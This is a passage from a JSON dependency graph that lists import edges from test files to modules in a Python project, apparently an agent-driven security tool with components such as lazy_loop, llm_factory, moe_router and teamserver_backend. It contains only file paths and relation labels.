"resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_streaming.py", "target": "modules/agent_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazy_worker_safety.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui/services/teamserver_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_backend.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_graph_widget.py", "target": "lazygui/widgets/graph_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazygui_models.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazynmap_post.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazynmap_post.py", "target": "cli/lazynmap_post.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lazynmap_post.py", "target": "cli/recon_plan.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_lesson_ingestor.py", "target": "modules/lesson_ingestor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_live_surface.py", "target": "modules/live_surface.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_adapter_parity.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_budget.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_prompts.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_prompts.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_llm_prompts.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_logging_config.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_logging_config.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_logging_config.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_logging_config.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_ai_bridge.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "cli/commands/mcp_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_auto_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_broadcast.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_broadcast.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_cold_overview.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_force_graph.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_force_graph.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_guard_audit.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_guard_audit.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_guard_audit.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_guard_audit.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_guard_audit.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_intent_delete.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_intent_delete.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_intent_delete.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_intent_delete.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_mentions.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_mentions.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_progress.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_progress.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_progress.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_progress.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_progress.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_spawn_side.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_spawn_side.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_spawn_side.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_spawn_side.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_spawn_side.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_store_race.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_supervision.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_loop_worker_traces.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_mcp_improvements.py", "target": "skills/lazyown_mcp_helpers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_mcp_improvements.py", "target": "skills/lazyown_mcp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_mcp_lazy.py", "target": "skills/mcp_lazy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_metrics.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_metrics_aware_selector.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_metrics_aware_selector.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_migrate_lazyown_generator.py", "target": "scripts/migrate_lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_module_registry.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/rl_trainer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/swan_agent.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_rl_swan.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules/moe_router.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_mutation_verification.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": 